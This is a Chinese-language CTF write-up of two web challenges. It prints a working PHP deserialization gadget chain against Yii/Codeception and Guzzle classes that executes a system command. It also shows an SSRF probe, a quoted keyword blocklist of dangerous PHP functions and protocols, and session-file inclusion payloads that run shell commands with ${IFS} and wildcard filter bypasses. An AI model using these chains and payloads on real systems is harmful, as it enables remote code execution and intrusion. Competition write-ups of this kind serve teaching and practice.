






部分web，太菜了有些做不出来
ezyii
参考：https://xz.aliyun.com/t/9948
不过后来第四条链子被作者删了。
代码如下：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
| <?php
namespace Codeception\Extension{
use Faker\DefaultGenerator;
use GuzzleHttp\Psr7\AppendStream;
class RunProcess{
protected $output;
private $processes = [];
public function __construct(){
$this->processes[]=new DefaultGenerator(new AppendStream());
$this->output=new DefaultGenerator('jiang');
}
}
echo base64_encode(serialize(new RunProcess()));
}
namespace Faker{
class DefaultGenerator
{
protected $default;
public function __construct($default = null)
{
$this->default = $default;
}
}
}
namespace GuzzleHttp\Psr7{
use Faker\DefaultGenerator;
final class AppendStream{
private $streams = [];
private $seekable = true;
public function __construct(){
$this->streams[]=new CachingStream();
}
}
final class CachingStream{
private $remoteStream;
public function __construct(){
$this->remoteStream=new DefaultGenerator(false);
$this->stream=new PumpStream();
}
}
final class PumpStream{
private $source;
private $size=-10;
private $buffer;
public function __construct(){
$this->buffer=new DefaultGenerator('j');
include("closure/autoload.php");
$a = function(){system('cat /flag.txt');};
$a = \Opis\Closure\serialize($a);
$b = unserialize($a);
$this->source=$b;
}
}
}
|
安全检测
通过POST请求发现报错，代码中使用file_get_contents，
第一时间想到了利用伪协议读取，试了好多个，发现不是被禁用了就是不行
1
2
3
4
| POST /check2.php HTTP/1.1
Host: eci-2zefzyj8kapkgt0oad3m.cloudeci1.ichunqiu.com
url1=http://ss123.828.22.1/
|
后面进行目录扫描，发现存在admin文件夹，尝试访问admin文件夹，payload：http://127.0.0.1/admin/

继续访问include123.php：http://127.0.0.1/admin/include123.php

1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
| <?php
$u=$_GET['u'];
$pattern = "\/\*|\*|\.\.\/|\.\/|load_file|outfile|dumpfile|sub|hex|where";
$pattern .= "|file_put_content|file_get_content|fwrite|curl|system|eval|assert";
$pattern .="|passthru|exec|system|chroot|scandir|chgrp|chown|shell_exec|proc_open|proc_get_status|popen|ini_alter|ini_restore";
$pattern .="|`|openlog|syslog|readlink|symlink|popepassthru|stream_socket_server|assert|pcntl_exec|http|.php|.ph|.log|\@|:\/\/|flag|access|error|stdout|stderr";
$pattern .="|file|dict|gopher";
$vpattern = explode("|",$pattern);
foreach($vpattern as $value){
if (preg_match( "/$value/i", $u )){
echo "检测到恶意字符";
exit(0);
}
}
include($u);
show_source(__FILE__);
?>
|
测试了好多个都不行，查看了下session文件包含漏洞,应该是这个。
1
2
3
4
5
| 常见的php-session存放位置：
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
|

执行下phpinfo成功。
1
2
| payload:http:
<?="xx"?>为PHP短标签，同等与<?php echo "xxx" ?>
|

执行lS试试，这边利用了${IFS}代替了空格
1
| payload:http://127.0.0.1/admin/include123.php?u=/tmp/sess_bedc37fbe5d2e7b064d01cce92e65182&test=<?=system('ls${IFS}/');?>
|

1
| bin boot dev etc getflag.sh home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var var
|
发现根目录下存在getflag.sh，运行下试试，由于flag被过滤，所以这边利用fl?g来代替flag
1
| payload:http://127.0.0.1/admin/include123.php?u=/tmp/sess_bedc37fbe5d2e7b064d01cce92e65182&test=<?=system('.${IFS}/getfl?g.sh');?>
|

参考
一篇文章带你理解漏洞之 PHP 文件包含漏洞
文件包含漏洞
yii 2.0.42 最新反序列化利用全集
[祥云杯2021] wp